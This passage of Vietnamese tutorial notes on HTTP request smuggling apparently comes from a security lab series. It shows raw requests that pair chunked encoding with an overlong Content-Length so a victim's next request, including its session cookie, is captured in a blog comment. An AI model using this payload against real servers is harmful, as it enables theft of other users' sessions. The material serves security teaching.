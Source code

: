 ```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

- Bây giờ, hãy xem xét điều gì sẽ xảy ra nếu bạn gửi HTTP request smuggling tương đương với tiêu đề Độ dài nội dung quá dài và tham số nhận xét được đặt ở cuối yêu cầu như sau:

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

- Tiêu đề Độ dài nội dung của yêu cầu nhập lậu cho biết rằng phần thân sẽ dài 400 byte, nhưng chúng tôi chỉ gửi 144 byte. Trong trường hợp này, máy chủ back-end sẽ đợi 256 byte còn lại trước khi đưa ra phản hồi, nếu không sẽ đưa ra thời gian chờ nếu điều này không đến đủ nhanh. Do đó, khi một yêu cầu khác được gửi đến máy chủ back-end trên cùng một kết nối, 256 byte đầu tiên sẽ được thêm một cách hiệu quả vào yêu cầu nhập lậu như sau:

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

> `Lab: Exploiting HTTP request smuggling to capture other users' requests`

- Ở đây chúng ta có chức năng nhận xét bài blog.
